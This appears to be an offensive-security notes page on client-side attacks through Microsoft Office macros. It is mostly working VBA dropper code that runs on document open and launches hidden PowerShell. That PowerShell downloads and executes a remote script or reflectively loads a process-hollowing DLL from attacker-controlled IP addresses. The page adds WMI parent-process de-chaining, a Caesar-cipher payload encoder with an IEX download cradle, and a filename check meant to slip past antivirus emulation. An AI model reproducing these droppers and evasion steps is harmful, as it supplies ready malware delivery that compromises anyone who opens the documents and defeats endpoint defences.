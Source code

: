 # Reflective Code Execution in Client Side Attacks

### Microsoft Word/Excel use VBA

*** Flagged cause of Powershell command.  Basic VBA dropper ***


### This is reflective poewrshell.  This should download ps1 and run it in memory but this gets flagged.  

``` VBA

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.50.120/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub


######################### OR ############################################ 


Sub MyMacro()
    Dim str As String
    str = "powershell.exe $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.196:4443/DLL_process_hollow.dll'); $assem = [System.Reflection.Assembly]::Load($data); $class = $assem.GetType('ReflectiveDLLCSharp.Class1'); $method = $class.GetMethod('runner');$method.Invoke(0, $null)"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

```

<br><br><br><br><br>


## Using WMIPRVSE.exe to DECHAIN from powershell

```  VBA

Sub MyMacro
  strArg = "powershell"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub

```


## Obfuscation methods

**Reverse string** 

``` VBA

Function bears(cows)
    bears = StrReverse(cows)
End Function

```

**Ceaser Cipher (This didnt work for MS Defender)**
<br><br>
Use powershell to encode the text as decimal<br>

``` powershell

$payload = "powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"

[string]$output = ""

$payload.ToCharArray() | %{
    [string]$thischar = [byte][char]$_ + 17
    if($thischar.Length -eq 1)
    {
        $thischar = [string]"00" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 2)
    {
        $thischar = [string]"0" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 3)
    {
        $output += $thischar
    }
}
$output | clip

```
<br><br>

**Only run macro if filename matches intended filename.  Sometimes antivirus renamems the file for emulation**
<br><br>

``` VBA

Sub MyMacro()

If ActiveDocument.Name = Nuts("085128116066063117128116126") Then
**PUT MACRO CODE UNDER ABOVE LINE**
End If

end Sub

```


